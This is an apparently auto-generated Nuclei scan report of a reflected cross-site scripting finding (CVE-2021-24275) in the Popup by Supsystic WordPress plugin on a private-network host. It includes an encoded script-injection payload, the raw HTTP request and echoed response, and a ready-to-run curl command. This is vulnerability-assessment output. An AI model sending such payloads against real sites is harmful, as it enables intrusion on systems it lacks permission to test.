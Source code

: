 ### Popup by Supsystic < 1.10.5 - Reflected Cross-Site scripting (XSS) (CVE-2021-24275) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2021-24275**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/wp-admin/admin.php?page=popup-wp-supsystic&tab=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:29 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | Popup by Supsystic < 1.10.5 - Reflected Cross-Site scripting (XSS) |
| Authors | dhiyaneshdk |
| Tags | wordpress, cve, cve2021, wp-plugin |
| Severity | medium |
| Description | The Popup by Supsystic WordPress plugin before 1.10.5 did not sanitise the tab parameter of its options page before outputting it in an attribute, leading to a reflected Cross-Site Scripting issue. |
| CVSS-Metrics | [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2021-24275](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2021-24275) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /wp-admin/admin.php?page=popup-wp-supsystic&tab=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2226.0 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 237
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/wp-admin/admin.php?page=popup-wp-supsystic&tab=</script><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://wpscan.com/vulnerability/efdc76e0-c14a-4baf-af70-9d381107308f
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2021-24275
- http://packetstormsecurity.com/files/164311/wordpress-popup-1.10.4-cross-site-scripting.html

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2226.0 Safari/537.36' 'http://192.168.198.179:8080/wp-admin/admin.php?page=popup-wp-supsystic&tab=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)